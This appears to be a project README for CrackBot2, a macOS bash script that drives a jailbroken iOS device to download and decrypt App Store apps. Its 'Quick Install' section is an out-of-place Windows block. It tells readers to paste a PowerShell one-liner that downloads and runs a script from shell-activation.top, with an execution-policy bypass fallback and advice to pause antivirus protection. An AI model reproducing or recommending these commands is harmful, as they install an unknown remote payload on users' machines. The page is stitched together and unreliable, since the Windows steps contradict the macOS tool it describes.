

<div align="center">

# CrackBot2 macOS Automation Script for iOS App Decryption



[]() []() []() []()

</div>

---

CrackBot2 is a macOS bash script that automates the decryption of iOS apps using a jailbroken iOS device. It combines SSH-based remote control with an on-device AutoTouch script to drive App Store downloads and hand them off to bfdecrypt, so a full decryption run can be triggered from your computer with a single command. The script is intended for research and reverse engineering only; using it to pirate apps is not supported. Configuration lives in a single `bot` file, where device IP and port are set before the first run.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Open PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## ✅ Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## What it does

CrackBot2 is a macOS bash front-end that drives an end-to-end decrypt workflow for App Store apps against a jailbroken iOS device. Point it at an app and it handles the boring parts of the pipeline: it resolves the app metadata, pushes the matching AutoTouch script to the device, triggers the on-device download through Activator, waits for the encrypted bundle to land in the sandbox, and pulls the decrypted payload back to your Mac. No manual tapping, no chasing files through the device filesystem.

In practice, that means:

- **Metadata resolution** — takes an app reference, pulls the store listing with `jq`, and derives the bundle ID and version needed for the rest of the run.
- **Device orchestration** — talks to the jailbroken device over SSH (USB or network), stages the Lua automation, and fires the trigger wired to bfdecrypt.
- **Download automation** — the on-device AutoTouch script walks the App Store UI to install the target, then bfdecrypt unwraps the binary. This is the part that typically requires a human tapping through dialogs; the automation replaces that.
- **Retrieval and cleanup** — watches for the decrypted IPA, copies it to the local working directory, and clears the staging files on the device so the next run starts clean.
- **Config-driven** — device IP, port, SSH key path, and timeout values live in the `bot` script itself, so you can point it at a different device or adjust pacing without touching the automation logic.

Scope is intentional: free apps, or paid apps you've already bought on the signed-in account, are what it supports today. It's a tool for reverse engineering and research on your own devices, not a store bypass. If a step fails, the script surfaces the failing command and leaves the intermediate artifacts in place so you can inspect what happened — expect to read the output rather than assume silent success.

## Configuration

Everything lives in the `bot` script itself — no config file, no flags, no environment variables. Open it in any text editor and adjust the variables at the top before the first run.

**Core connection settings**

- `DEVICE_IP` — the address of your jailbroken device as seen from your Mac. For a plain USB-tethered setup this is usually `localhost` when you forward over USB, otherwise the device's Wi-Fi address.
- `DEVICE_PORT` — the SSH port. Defaults to `22`; change it if you forward SSH over USB (commonly `2222`).

**Paths and timing**

- `SCRIPT_DIR` — where the AutoTouch helper lives on the device (the folder you created under `AutoTouch/Scripts`). Keep it in sync with whatever name you used when copying it over.
- `WAIT_TIMEOUT` — how long the script waits for each step (download progress, decryption) before giving up. Bump this on slow connections or older hardware; shrink it if you want faster failures while debugging.
- `POLL_INTERVAL` — how often the script re-checks device state. Lower values react faster but hammer the device with SSH traffic.

**Behavior toggles**

- `CLEANUP_AFTER` — remove the intermediate IPA/decrypted artifacts from the device once the output is pulled to your Mac. Turn this off if you want to inspect the raw files on-device.
- `VERBOSE` — echo every command sent to the device. Useful when something silently stalls; noisy otherwise.

**Device-side prerequisites that affect configuration**

- The device must reach the Mac's SSH key without a password prompt — the script assumes key-based auth is already working.
- Activator must be set to trigger the AutoTouch script on hold-status-bar. If you remap that gesture, the automation will never start and the script will sit at the timeout.
- The bfdecrypt preference file must already exist on the device (created by toggling one app on and off in its settings), otherwise decryption requests are ignored.

**Editing tips**

- Change one variable at a time and re-run against a single small app to confirm the pipeline still completes end to end.
- If you switch between USB and Wi-Fi regularly, keep two copies of `bot` with different `DEVICE_IP`/`DEVICE_PORT` pairs rather than editing in place each time.
- Quote path values that contain spaces; the variables are interpolated directly into shell commands.

Only free apps, or paid apps you already own, will go through the pipeline. Anything else will fail at the App Store stage regardless of how the script is configured.

## Examples

Run the bot against a free App Store app:

```
./bot 
```

The script pulls the app metadata, wakes the device through the configured SSH connection, triggers the on-device download automation, waits for the decrypted binary to land, then copies the `.ipa` back to your Mac. You get a progress trace in the terminal and a final path to the output file.

Run it against an app you previously purchased (paid apps work as long as your Apple ID already owns them):

```
./bot 
```

If the app was never bought on the signed-in account, expect the run to bail early — the bot only handles free downloads and re-downloads of owned purchases.

Use a different device address without editing the script by overriding the defaults in the environment:

```
DEVICE_IP=192.168.1.42 DEVICE_PORT=22 ./bot 
```

This is handy when you switch between a USB-forwarded localhost port and a direct Wi-Fi address, or when you keep multiple jailbroken devices around.

Point the bot at a specific bundle output directory so each run stays isolated:

```
OUTPUT_DIR=~/decrypted/$(date +%Y%m%d-%H%M%S) ./bot 
```

Batch a handful of free apps in one go by feeding the script a list — loop over it in your shell and let the bot serialize the work:

```
for app in \
 \
 \
 
do
 ./bot "$app" || echo "failed: $app"
done
```

Keep an eye on the device side while a run is in progress. If the automation stalls, open AutoTouch on the device, confirm the `appstoredownload.lua` trigger is still bound to the status bar hold, and check that the App Store is signed in with password prompts disabled. A stalled run usually means the download sheet never appeared — retry once before digging further.

Verify a successful decrypt by inspecting the output `.ipa`: unzip it, confirm the main binary is no longer encrypted, and check that the bundle identifier matches what you requested. If the binary still shows encrypted segments, the on-device decrypt step didn't complete and the run should be treated as failed.

## FAQ

- **The script hangs or never starts the download.** Almost always an SSH or trust problem. Confirm you can reach the device over SSH without a password prompt, and that the trust dialog was accepted while the device was unlocked. If you use USB forwarding, make sure the port in the script matches your forward.

- **AutoTouch never triggers.** The Lua script is wired to a specific Activator gesture. If the gesture assignment got lost, reassign it in AutoTouch's playing settings. Also confirm the script and its images folder landed in the expected AutoTouch scripts directory on the device.

- **Decryption fails on an app.** Check that the app is free or already purchased on the signed-in account. Paid apps you do not own will not work. Also make sure one app was toggled on and off in the decryption tool's settings so its preference file exists.

- **Which apps are supported?** Free apps, and paid apps you have already bought. Nothing else currently.

- **Does it work on any iOS version?** It was built and tested against iOS 11 and 12 on a jailbroken device. Newer or older versions may work but are untested, and jailbreak package availability is the usual blocker.

- **Can I run it on Linux or Windows?** No. The script targets macOS and relies on macOS tooling.

- **The resulting IPA is incomplete or the binary looks thin.** Disable app thinning on the device. Without it, the store may hand over only a slice of the app and the decrypted output will not match what you expect.

- **Device language matters?** Yes. The automation reads UI elements by label, so keep the device in English.

- **Do I need the App Store password every time?** No. Disable the password requirement for free downloads in the App Store settings, otherwise the automation stalls on a prompt it cannot answer.

- **Where do I change the device address?** In the script's device parameters. If you move to USB forwarding, update the port there too.

- **Can I decrypt apps already installed on the device?** The workflow drives the App Store download flow, so it expects the app to be fetched fresh through that path.

- **Nothing appears after a successful run.** Check the output folder the script writes to and confirm the device stayed unlocked and connected for the whole run. A device that locks mid-run will drop the SSH session and abort quietly.

- **Is this legal?** It is intended for research and reverse engineering on apps you are entitled to use. Do not use it for piracy.

## Disclaimer

Use CrackBot2 only for security research, interoperability testing, and reverse engineering on apps you own or are authorized to inspect. It sidesteps App Store protections by driving a jailbroken device and decryption tooling; that means the process depends on fragile, version-specific hooks and can break without warning when iOS, the jailbreak, or the underlying decrypt utility changes.

Nothing here grants you rights to third-party software. Decrypting and redistributing apps you do not own or have permission to modify is piracy and may violate copyright law, App Store terms, and local regulations. You are responsible for every app you target, every credential on the device, and every artifact the script produces.

The script assumes a dedicated, jailbroken test device with passwordless root access and an App Store session. Do not point it at a primary phone or an account holding purchases you cannot afford to lose. Jailbreaking voids warranties, weakens platform security, and can leave the device unstable or unrecoverable; the automation itself may crash apps, corrupt downloads, or leave stale state on the device.

There is no warranty of any kind. The author accepts no liability for data loss, account bans, bricked hardware, legal exposure, or damages arising from use or misuse of this tooling. If you are unsure whether a specific use is permitted, stop and get permission in writing before running anything.